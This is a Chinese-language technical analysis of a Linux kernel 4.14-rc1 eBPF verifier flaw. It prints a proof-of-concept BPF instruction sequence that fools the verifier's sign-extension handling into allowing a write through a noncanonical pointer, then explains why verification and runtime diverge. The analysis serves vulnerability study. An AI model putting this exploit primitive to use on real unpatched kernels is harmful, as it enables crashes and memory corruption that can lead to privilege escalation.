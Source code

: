 # 环境

内核:v4.14-rc1

# 分析
主要代码(参考质料1中代码):
```c
(1 )        BPF_LD_MAP_FD(BPF_REG_ARG1, mapfd),

        // fill r0 with pointer to map value
(2 )        BPF_MOV64_REG(BPF_REG_TMP, BPF_REG_FP),
(3 )        BPF_ALU64_IMM(BPF_ADD, BPF_REG_TMP, -4), // allocate 4 bytes stack
(4 )        BPF_MOV32_IMM(BPF_REG_ARG2, 1),
(5 )        BPF_STX_MEM(BPF_W, BPF_REG_TMP, BPF_REG_ARG2, 0),
(6 )        BPF_MOV64_REG(BPF_REG_ARG2, BPF_REG_TMP),
(7 )        BPF_EMIT_CALL(BPF_FUNC_map_lookup_elem),
(8 )        BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 2),
(9 )        BPF_MOV64_REG(BPF_REG_0, 0), // prepare exit
(10)        BPF_EXIT_INSN(), // exit

        // r1 = 0xffff'ffff, mistreated as 0xffff'ffff'ffff'ffff
(11)        BPF_MOV32_IMM(BPF_REG_1, 0xffffffff),
        // r1 = 0x1'0000'0000, mistreated as 0
(12)        BPF_ALU64_IMM(BPF_ADD, BPF_REG_1, 1),
        // r1 = 0x1000'0000'0000'0000, mistreated as 0
(13)        BPF_ALU64_IMM(BPF_LSH, BPF_REG_1, 28),

        // compute noncanonical pointer
(14)        BPF_ALU64_REG(BPF_ADD, BPF_REG_0, BPF_REG_1),

        // crash by writing to noncanonical pointer
(15)        BPF_MOV32_IMM(BPF_REG_1, 0xdeadbeef),
(16)        BPF_STX_MEM(BPF_W, BPF_REG_0, BPF_REG_1, 0),

        // terminate to make the verifier happy
(17)        BPF_MOV32_IMM(BPF_REG_0, 0),
(18)        BPF_EXIT_INSN()
```

要理清这段代码的为什么要造成崩溃，需要理解bpf程序的执行流程(参考资料2)

![image](https://www.ibm.com/developerworks/cn/linux/l-lo-eBPF-history/image005.png)

用户提交bpf代码时，进行一次验证(==模拟代码执行==)，而在执行的时候并不验证。


而漏洞形成的原因在于：模拟执行代码（验证的过程中）与正真执行时的差异造成的。

从两个层面分析，就容易发现问题了(重点代码分析)

#### 模拟执行（验证过程）分析(寄存器用uint64_t、立即数用int32_t表示(分析可以发现)）

(11) 行 : 将 0xffff`ffff放入BPF_REG_1寄存器中(分析代码发现进行了符号扩展 BPF_REG_1 为 0xffff`ffff`ffff`ffff)

(12) 行 ：BPF_REG_1 = BPF_REG_1 + 1,此时由于寄存器溢出，只保留低64位（寄存器大小为64位），所以 BPF_REG_1变为0


(13) 行 : 左移，BPF_REG_1还是0

(14) 行 : 将BPF_REG_0 （map value 的地址）加 BPR_REG_1 ,BPF_REG_0，保持不变(该操作能绕过接下来的地址检查操作)

(15)、(16): 将 map value 的值改为 0xdeadbeef。（赋值时会检查 map value 地址的合法性,我们从上面分析可以得出，map value地址合法）

验证器（模拟执行）该bpf 代码，发现没什么问题，允许加载进内核

#### 真正执行（bpf虚拟机）分析(寄存器用uint64_t，立即数用int32_t表示)

(11)行 : 将 0xffff`ffff（立即数转换为uint32_t） 放入 BPF_REG_1 的低32 位

(12)行 ： BPF_REG_1 = BPF_REG_1 + 1 ，此时 BPF_REG_1 = 0x1`0000`0000(再次提示：运行时 寄存器用 uint64_t表示)

(13)行 : 左移，BPF_REG_1 = 0x1000'0000'0000'0000

(14)行 : 将BPF_REG_0 （map value 的地址）加 BPR_REG_1 ,此时BPF_REG_0变成一个非法值

(15)、(16): 导致非法内存访问，崩溃！

这就是导致崩溃的原因

# 参考资料
1.POC地址:https://bugs.chromium.org/p/project-zero/issues/detail?id=1454&desc=3

2.eBPF简史:https://www.ibm.com/developerworks/cn/linux/l-lo-eBPF-history/index.html
    
